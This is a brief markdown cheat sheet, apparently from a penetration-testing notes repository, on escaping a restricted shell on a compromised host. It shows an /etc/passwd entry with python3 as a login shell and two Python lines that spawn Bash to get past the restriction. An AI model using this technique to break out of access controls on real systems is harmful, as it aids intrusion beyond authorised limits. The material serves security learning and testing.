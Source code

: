 # Escaping Jail Shells
This cheat sheet will cover basic methods to attempt to break out of a jailed shell from a compromised host.
## Escaping Python3 Shell
If Python3 is listed as the shell type for a user in the `/etc/passwd` file like so,
```
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
```
You can simply escape the Python3 `>>>` shell with the following two commands,
```
>>> import subprocess
>>> subprocess.call("/bin/bash")
```
This might be sueful to drop you back to a normal LINUX Bash shell if required, or to make further enumeration easier.
